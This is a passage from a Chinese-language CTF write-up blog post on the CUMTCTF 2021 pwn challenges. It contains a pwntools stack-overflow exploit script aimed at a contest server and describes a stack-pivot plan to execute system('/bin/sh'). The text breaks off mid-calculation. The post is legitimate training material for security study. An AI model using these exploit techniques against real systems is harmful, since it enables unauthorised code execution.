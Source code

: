 ```yaml
---
title: CUMTCTF 2021国庆赛WP（部分）
date: 2021-11-22 23:44:13
tags: [CTF,Pwn,Misc,Python]
categories: 
 - [CyberSecurity,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682435935/Typera/2023/04/54a2923a541fe0c86555a91b264f4221.png
---
```


## PWN

### pwn1

nc 连上 直接cat flag

### pwn2
经典栈溢出
![image-20230425230815230](https://res.cloudinary.com/sycamore/image/upload/v1682435298/Typera/2023/04/2d25d53292a7b5602fd11b9e1127bcf1.png)

```python
from pwn import *

#r=process("./pwn2")
r=remote('1.15.81.218',10001)

p=b'a' * 72 + p64(0x400596)
r.sendline(p)

r.interactive()
```

直接传就行了...
### pwn3
开了NX保护，没开金丝雀


![image-20230425230949625](https://res.cloudinary.com/sycamore/image/upload/v1682435393/Typera/2023/04/0ac847eebeec27d62e811700f99b5b71.png)有个echo flag，感觉像是那么回事，实际上没用,

所以还是得通过system函数来搞

![image-20230425230831039](https://res.cloudinary.com/sycamore/image/upload/v1682435314/Typera/2023/04/b3a274b13eede296b71c54165bc95d53.png)

这里s大小是0x28，所以只能溢出0x8字节，不够写太长的，但是这里可以读两次，所以思路是第一次泄露ebp地址，第二次写入system(‘/bin/sh’)，然后用leave;ret栈劫持s，执行system('/bin/sh')

要劫持s要知道s的地址，可以通过动调知道ebp到s的距离，然后计算

ebp到s的距离为0xffffc1f8 - 0xffffc1c0 = 0x38

所以ebp: 
